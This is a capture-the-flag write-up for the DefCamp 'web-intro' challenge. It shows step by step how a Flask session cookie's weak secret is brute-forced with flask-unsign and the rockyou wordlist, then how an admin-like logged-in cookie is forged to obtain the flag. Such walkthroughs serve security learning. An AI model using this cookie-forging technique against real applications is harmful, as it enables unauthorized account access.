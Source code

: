 # DefCamp - web-intro

/ : `Access Denied`

**Cookie**: session=eyJsb2dnZWRfaW4iOmZhbHNlfQ.Ygs_NA.wxZwBis71csCsb5cqaEIEyGdIQw

Head to jwt.io --> edit --> `{"logged-in": false}` --> {"logged-in": true} --> ValueError: year 15225.... is out of range... flask....


We could edit the cookie header, although the secret part is invalid, the app still loads this cookie but raise error right after, if we want to edit jwt cookie, we have to known the secret.

**Search**: `flask hacktricks`

Default cookie session name is session(yes, it's not Authorization: Bearer <token>)


**Brute-Force**: brute force Secret Key using flask-unsign module
```bash
./flask-unsign --unsign --cookie --wordlist /usr/share/wordlists/rockyou.txt -c 'eyJsb2dnZWRfaW4iOmZhbHNlfQ.YgtANg.cyf04jdHMP_ObmEG0eAW2psQwOQ' --no-literal-eval
# [*] Session decodes to: {'logged_in': False}
# [*] Starting brute-forcer with 8 threads..
# [+] Found secret key after 128 attempts
# b'password'
```

  **Edit** the token:
  ```bash
  ./flask-unsign --sign --cookie "{'logged_in': True}" --secret 'password'
  # eyJsb2dnZWRfaW4iOnRydWV9.YgtDag.cVK8x-2PERXwTcYPTzJikW7KSu8
  ```
  Notice that this is python(flask) so `True` is case-sensitive!!
  
  You are logged in! CTF{66bf8ba5c3ee2bd230f5cc2de57c1f09f471de8833eae3ff7566da21eb141eb7}
